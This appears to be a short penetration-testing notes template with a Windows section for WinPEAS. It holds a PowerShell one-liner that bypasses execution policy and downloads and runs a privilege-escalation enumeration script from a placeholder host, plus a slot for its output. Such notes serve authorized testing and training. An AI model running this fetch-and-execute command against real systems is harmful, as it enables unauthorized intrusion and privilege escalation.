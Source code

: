 # Windows

## Winpeas
```bash
powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
```
```bash
<insert winpeas output here>
```
